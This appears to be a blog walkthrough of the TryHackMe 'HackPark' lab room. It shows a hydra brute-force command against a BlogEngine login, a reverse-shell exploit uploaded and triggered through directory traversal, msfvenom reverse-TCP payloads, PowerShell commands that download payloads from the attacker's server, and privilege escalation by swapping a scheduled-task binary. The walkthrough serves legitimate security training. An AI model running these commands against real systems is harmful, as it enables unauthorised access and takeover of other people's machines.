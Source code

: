 ```yaml
---
slug: hackpark-walkthrough
title: TryHackMe - HackPark - Walkthrough
authors: bw
tags: [learning, hackpark, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [HackPark][hackpark]. Let’s get started!

# Deploy Machine
First step is to deploy the machine! **NOTE:** This machine took about 3 minutes to fully boot up for me.

Then navigate to the website:

![h1](/static/img/thm/hackpark/h1.webp)

The picture is of a clown from a pretty famous movie. You could do a reverse image search on this if you don’t know the name, but I happen to know the name so I will just answer the question.

# Using Hydra
If we read through the next section we are looking for a Login page. This can be found on the menu button in the top right, and clicking **LOG-IN**

We also need to figure out what type of request this form is making in order to answer the next question.

Let’s run `hydra` against the log-in page. First we need to gather some information:

**Username:** We will use `admin` in this case
**Wordlist:** `rockyou.txt`
**URL:** `http://10.10.253.80/Account/login.aspx`
**POST parameters:** Let’s get these!

In order to get the POST parameters, let’s login with just `admin` and a random password. (I used `test1`). This will give use a POST request sent to the server. Now, let’s inspect the page.

First we need to go to **Network**, and click on the POST request. On the right-hand side, you will see **Resend**. Click on this and select **Edit and Resend**.

![h2](/static/img/thm/hackpark/h2.png)

From there, we can view the **Request Body** that is being sent to the server. Copy that whole thing and now we can configure our hydra attack.

![h3](/static/img/thm/hackpark/h3.png)

In this **Request Body**, we need to look for our `admin` and `test1` login and password that we used. We will replace those with `^USER^` and `^PASS^`, respectively. Lastly, we need something to tell hydra when a login attempt **didn’t** work. If we look at the login page when we tried to login previously, we see a “Login failed”. We can use that as our third parameter.

Advertisement

This hydra command is formatted like this:

`hydra -l <user_we_want_to_use> -P <wordlist> <ip> <request_method> '<page_to_attack>:<request_body_to_send_with_parameters>:<failed_notification>'`

Our `hydra` command will be something close to the following:

```bash
hydra -l admin -P ../rockyou.txt 10.10.253.80  http-post-form '/Account/login.aspx:__VIEWSTATE=I3MnpaPIRlkVeH4Kqrvda70AlTlHWpL7b8f3WLwFpdvduY8pg%2FR1KTlj85jTd1HyGNjf62TlDb63aZEhX60AcedUrAFssR0%2F2yq9HgfwhFkNK8lJzqzskyZ52KDSjg5gjbOhz3ke5TnvkzukBIkvgzGzGBqzkiyHRR8bZ6xWltRXOBkS8GomTXvkwVCTpWlKEypbzaZOWME%2BQjrbYQXOktLM8AMOV636Owd%2BwLD6NDYBZYiJs9fLFWVD%2F8GjdQdZukSWV3nPr9SEwGwLhqs%2BgOZT4H8p4SzdXk4sLahpDwygg1HKrbWh5We5Zepu9MRaR87i5pgDFuR0ZVo5QDECFRj%2BAVNQ9sjMu5FiqK62eNJAYEmp&__EVENTVALIDATION=EdyUhLFMjYGwbQuLybR9Bk4empok7oCUscNJn6WrxKizHeT7YhJHGNy%2BXB0Qoq8%2FhKHgGQRO24pmf81EejDPhbhuLgjZSExvSE6MGh4wBW9TEtIufI5vsgCmblpg5xNIcTRefmM%2BCGKT2V68xMx4RTUZ77NQy4gJmmc7GQj5GAckN12s&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Letting hydra run, we get a successful attempt!

![h4](/static/img/thm/hackpark/h4.webp)

# Compromise the Machine
Now that we are logged in as `admin`. Navigate to **Admin** > **About** to find the version number.

From here we can go to [Exploit Database][exdb] to find an exploit! There are a few listed, but let’s use this one: [Link][exploit]. (Find the CVE here).

Now reading through the exploit, we need to upload it onto the server. The exploit states how to do this:

>First, we set the TcpClient address and port within the method below to our .>attack host, who has a reverse tcp listener waiting for a connection. Next, we >upload this file through the file manager. In the current (3.3.6) version of >BlogEngine, this is done by editing a post and clicking on the icon that looks >like an open file in the toolbar. Note that this file must be uploaded as >PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory >off of the document root. The admin page that allows upload is: 
>
>`http://10.10.10.10/admin/app/editor/editpost.cshtml`
>
>Finally, the vulnerability is triggered by accessing the base URL for the blog >with a theme override specified like so:
>
>`http://10.10.10.10/?theme=../../App_Data/files`

Let’s follow those instructions! First, copy the “raw” over to your attack machine. Make sure to change the IP to your attack machine IP. (`tun0` if you run `ip a` or `ifconfig`). Also make sure to save the file as `PostView.ascx`.

Let’s go and upload the file. Navigate to **Content** > **Posts** > **Select Post** > **Open Folder Icon** > **Select exploit file** > **Save**

![h5](/static/img/thm/hackpark/h5.webp)

Now let’s start a netcat listener for the shell to come back to. Open a new terminal windows on attack machine and type: `nc -nvlp 4445`

Navigate to the folder: `http://10.10.253.80/?theme=../../App_Data/files`

View your terminal, and we see a shell!

![h6](/static/img/thm/hackpark/h6.png)

# Windows PrivEsc
Let’s generate a payload using `msfvenom` in order to get a meterpreter shell.

In a new terminal window generate the payload with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<THM_ip> LPORT=4446 -f exe -o win_shell.exe
```

Once your payload is generated, we need to upload it. In the folder where you created your payload, open a Python http server with: `python3 -m http.server 80`

Back in the victim machine shell, use the following command to download the payload on to the server:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/win_shell.exe' -OutFile 'c:\windows\temp\win_shell.exe'
```

Before we can execute the file, we need to have a listener open. For this we will use metasploit:

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4446
set payload windows/meterpreter/reverse_tcp
run
```

Now that our listener is running, execute the file: `win_shell.exe`

We have our meterpreter shell!

![h7](/static/img/thm/hackpark/h7.png)

Let’s gather info:

`sysinfo` (OS answer)
`ps` (Abnormal service answer)

Navigate to `C:\Program Files (x86)\SystemScheduler\Events` to find the binary.

We found our binary, now lets create a payload under that binary:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_ip> LPORT=4447 -f exe -o Message.exe
```

Download that file onto the server using the same method we did previously:
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

Once that is complete, background your current metasploit session, and set the multi/handler options to utilize the new port 4447. Once you run that, a session should come up.

`getuid` shows that we are now `Administrator`

![h8](/static/img/thm/hackpark/h8.png)

Let’s navigate to Jeff’s Desktop and get the flag!

![h9](/static/img/thm/hackpark/h9.png)

And then get the root flag:

![h10](/static/img/thm/hackpark/h10.png)

# PrivEsc without Metasploit
This section I will leave for you to do by yourself. It is similar to the Metasploit, but instead of using Metasploit, you will use netcat listener to get the shell instead of the Metasploit multi/handler. The room does a good job of walking you through the process. You will also use [winPEAS][winpeas] to enumerate the system.

Review
This room was a more intermediate level room that still walked you through some steps, but not everything. I liked that it didn’t hand hold throughout the entire process, and it still left some research, previous knowledge up to the person doing it. Overall, it was a great room that I highly recommend!

References
[TryHackMe][thm] | [HackPark Room][hackpark] | [Exploit Database][exdb] | [Exploit][exploit] | [winPEAS][winpeas]

[thm]: https://tryhackme.com
[hackpark]: https://tryhackme.com/why-subscribe?roomCode=hackpark
[exdb]: https://www.exploit-db.com
[exploit]: https://www.exploit-db.com/exploits/46353
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS